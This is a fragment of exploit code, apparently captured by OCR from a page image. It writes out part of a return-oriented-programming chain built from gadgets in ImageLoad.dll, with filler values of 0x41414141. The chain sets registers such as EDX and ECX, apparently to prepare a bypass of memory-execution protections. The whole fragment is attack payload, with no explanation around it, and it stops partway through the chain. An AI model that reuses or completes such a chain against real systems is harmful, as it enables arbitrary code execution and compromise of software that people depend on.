 ```python
	  base_ImageLoad_dll + 0x0001a857,	#(RVA : 0x0001a857) : # POP EBX # RETN    ** [ImageLoad.dll] **   |   {PAGE_EXECUTE_READ}
	  0x1001C8C8,						# 1001C8C8 + 0x1001C8C8 = 0x00001000 Value to be put into EDX
	  base_ImageLoad_dll + 0x00022c1e,  #(RVA : 0x00022c1e) : # ADD EDX,EBX # POP EBX # RETN 0x10    ** [ImageLoad.dll] **   |  ascii {PAGE_EXECUTE_READ}
	  0x41414141,                       # Filler (compensate)
	  #[---INFO:gadgets_to_set_ecx:---]
	  base_ImageLoad_dll + 0x00019aa2,  # POP ECX # RETN [ImageLoad.dll] 
	  0xffffffff,                       # ska bli 65
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
```